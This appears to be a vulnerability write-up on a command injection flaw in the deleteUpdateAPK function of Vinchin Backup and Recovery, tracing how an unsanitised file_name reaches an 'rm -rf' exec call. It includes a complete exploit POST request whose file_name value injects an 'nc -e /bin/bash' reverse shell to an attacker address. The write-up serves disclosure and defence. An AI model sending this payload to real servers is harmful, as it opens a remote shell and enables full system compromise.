

### Deep Dive into the `deleteUpdateAPK` Function Vulnerability in Vinchin Backup and Recovery



#### Vulnerability Overview:

The `deleteUpdateAPK` function within Vinchin Backup and Recovery's software contains a critical security vulnerability. This function is intended to delete an APK file based on provided parameters.

#### Function Analysis:

**Function Prototype**:
```php
public function deleteUpdateAPK($params)
```

1. **Parameter Extraction**:
   The function retrieves `md5` and `file_name` from the `$params` array:
   ```php
   $md5 = $params['md5'];
   $file_name = $params['file_name'];
   ```

2. **File Name Check**:
   The function checks if the `file_name` is empty and returns an error message if it is:
   ```php
   if (empty($file_name)) {
       // Return an error message
   }
   ```

3. **Command Construction**:
   It constructs a command to remove the specified file and its temporary counterpart:
   ```php
   $cmd = "rm -rf " . $path;
   $cmd_tmp = "rm -rf " . $path_tmp;
   ```

4. **Command Execution**:
   The commands are executed using the `exec` function:
   ```php
   exec($cmd);
   exec($cmd_tmp);
   ```

   The critical vulnerability here is the direct use of the `file_name` parameter in the command without any sanitization or validation. This opens the door for an attacker to inject additional commands.

#### Exploitation:

An attacker can exploit this vulnerability by injecting commands through the `file_name` parameter.

#### Exploit Example:

An attacker can send a POST request with a specially crafted `file_name` parameter:

```
POST /api/ HTTP/1.1
Host: 192.168.1.9
Cookie: BackupSystem=cqle200rsnt5a7r0ug4v9vl9bd;
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=deleteUpdateAPK&p={"md5":"dummy_md5","file_name":";nc -e /bin/bash 192.168.1.5 1338"}
```

In this request, the attacker appends a reverse shell command (`nc -e /bin/bash 192.168.1.5 1338`) to the `file_name` parameter, leading to its execution on the server.

#### Conclusion:

The `deleteUpdateAPK` function's vulnerability is another instance of command injection due to insufficient input validation. It allows an attacker to execute arbitrary commands on the server, potentially leading to full system compromise. 

Vinchin should urgently address this vulnerability by implementing strict input validation and command execution controls. Users of Vinchin Backup and Recovery should apply any available security updates to mitigate this risk.